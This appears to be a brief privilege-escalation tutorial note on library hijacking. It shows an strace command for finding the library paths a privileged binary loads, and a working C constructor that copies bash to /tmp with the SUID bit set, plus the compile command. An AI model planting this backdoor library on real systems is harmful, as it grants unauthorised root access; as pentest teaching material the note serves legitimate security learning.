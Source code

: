 ## Library Hijacking

If we come across a non-standard binary that can be executed with high privileges via sudo or is set as SUID, it’s important to check where it’s trying to load libraries from and ensure we don’t have access to manipulate any of those directories.

## Check

A simple technique to know which libraries a binary is attempting to load is using the `strace` command, which traces system calls made by the running binary. To reduce output, we can filter for strings where it tries to load a library.

```bash
strace [binary] 2>&1 | grep -i -E "open|access|no such file"
```

If we find a manipulable path, we can place a fake library with a bash backdoor, using the following code, for example:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash");
}
```

And for compilation:

```bash
gcc -shared -o backdoor.so -fPIC backdoor.c
```
